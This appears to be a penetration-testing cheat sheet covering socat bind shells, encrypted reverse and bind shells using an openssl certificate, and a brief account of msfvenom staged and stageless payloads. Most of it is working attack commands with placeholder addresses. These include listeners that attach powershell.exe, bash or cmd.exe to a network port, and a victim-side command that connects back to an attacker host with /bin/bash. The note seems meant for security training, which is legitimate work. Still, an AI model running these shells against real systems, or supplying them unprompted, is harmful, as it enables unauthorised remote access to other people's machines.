 **Bind Shell**

Command to connect

- Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
    
- Command on our attacking machine to connect to the waiting listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
    
- A more stable and Linux only command: ``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

## Socat encrypted shells

Getting an encrypted **reverse shell**:

- First, generate certificate: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

- The command above creates a 2048-bit RSA key with a matching cert file - valid for 1 year

- Now, merge two created files into one: `cat shell.key shell.crt > shell.pem`
- Reverse shell listener on attacker machine: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
- Execute command on victim machine: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
    
Getting an encrypted **bind shell**:

- Run in Target machine: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
- Attacker machine: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -` 

Note: Even for windows target, use certificate with listener.



## msfvenom

The standard syntax for msfvenom: `msfvenom -p <PAYLOAD> <OPTIONS>`

There are 2 type of **reverse shell** payloads:

1. **Staged**: This payload has 2 parts
    
    1. Stager: This goes to the server and initiate a reverse connection only. It has no payload in it
        
    2. Reverse shell code: This bulk code is downloaded after an initial connection.
        
    
2. **Stageless**: The whole reverse shell code gets uploaded to a server for a connection back. These are easy to detect by detection software.
    

A very good cheat sheet about msfvenom: [**Link here**](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)




## Prompt Description
